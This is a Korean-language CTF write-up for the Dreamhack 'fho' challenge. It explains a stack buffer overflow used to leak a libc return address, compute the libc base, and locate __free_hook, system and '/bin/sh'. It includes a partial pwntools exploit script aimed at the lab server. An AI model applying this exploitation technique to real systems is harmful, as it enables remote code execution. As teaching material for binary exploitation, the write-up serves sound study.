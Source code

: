 위 #1 부분에서 확인할 수 있듯이 main  함수의 반환주소는 0x00007f5ae2f1cc87 이고, x/i로 명령어를 출력해보면 __libc_start_main+231 인 것을 확인할 수 있다. 
libc_start_main+231 의 오프셋은 다음과 같이 readelf 명령어로 구할 수 있다.

```
$ readelf -s libc-2.27.so | grep " __libc_start_main@"
  2203: 0000000000021b10   446 FUNC    GLOBAL DEFAULT   13 __libc_start_main@@GLIBC_2.2.5

--> __libc_start_main+231의 오프셋 = 0x21b10+231
```

따라서 main 함수의 반환 주소인  \_\_libc_start_main+231 를 릭한 후, 해당 값에서 0x21b10+231 를 빼면 libc의 베이스 주소를 구할 수 있다.
libc의 베이스주소를 구한 후에는 \_\_free_hook, system 함수, "/bin/sh" 문자열의 오프셋을 더해서 이들의 주소 값도 계산이 가능하다.

#### 도커 선행 작업

1.도커 컨테이너에 libc-2.27.so 파일 복사해 넣기
칼리 호스트 디렉토리에서 
docker cp ./libc-2.27.so d4490cb00dd2:/root

2.LD_PRELOAD 환경변수 설정
프로그램이 실행될 때 공유 라이브러리를 우선적으로 로드하도록 지시하는 환경변수.

export LD_PRELOAD=$(realpath ./libc-2.27.so)
: realpath ./libc-2.27.so
-> ./libc-2.27.so 의 절대 경로(예: /root//libc-2.27.so)를 문자열로 반환.
: $(...)
-> 그 문자열을 LD_PRELOAD 값으로 치환.

ldd ./fho 로 확인 가능


#### 2) 셸 획득

라이브러리 변수 및 함수들의 주소 구하기
``` python
#!/usr/bin/env python3
# Name: fho.py

from pwn import *

# ELF('./libc-2.27.so) : libc 심볼 및 문자열 검색 가능.
# p = process('./fho')
p = remote("host8.dreamhack.games", 9291)
e = ELF('./fho')
libc = ELF('./libc-2.27.so')

def slog(name, addr):
    return success(': '.join([name, hex(addr)]))

# [1] Leak libc base
'''
buf = b'A'*0x48
: 스택 버퍼 오버플로우 취약점을 활용하여 buf의 위치 [rbp+0x40] 에 SFP(0x08)을 더비데이터로 전달
p.sendafter('Buf: ', buf)
: 화면에 "Buf: " 프롬프트가 뜨면 payload 전송
p.recvuntil(buf)
: echo된 payload 까지 읽음 -> 그 이후에 나오는 스택 상 libc주소를 수집 가능.
libc_start_main_xx = u64(p.recvline()[:-1] + b'\x00'*2)
: p.recvline() 명령에 의해 스택의 다음 위치(main 함수의 RET)의 바이트 데이트를 받아들임.서
: 들어오는 데이터 -> b'\xa8\xbc\xc5\xbcJ\x7f'
: [:-1] -> recvline()으로 받기 때문에 마지막에 "\n"을 함께 받게 되는데 이것을 제거하기 위해.
: 가장 뒤에 '\x00'을 2개 추가하는 것은 전달받은 데이터는 6바이트이므로 8바이트를 맞추기 위해.
: u64() -> 바이트로 들어온 주소는 코드에서 연산(+, -)을 하여야 하므로 바이트 문자열을 정수로 변환함.
: b'\xa8\xfc\xa2\x15\xcc\x7f\x00\x00' -> 0x7fb503487ca8 로 변환됨.
libc_start_main_xx 
: 이 주소값은 libc_start_main에서 xx 만큼 떨어져있는 주소이다.
: 예) 0x7f5ae2f1cc87 <__libc_start_main+231>:  mov    edi,eax
```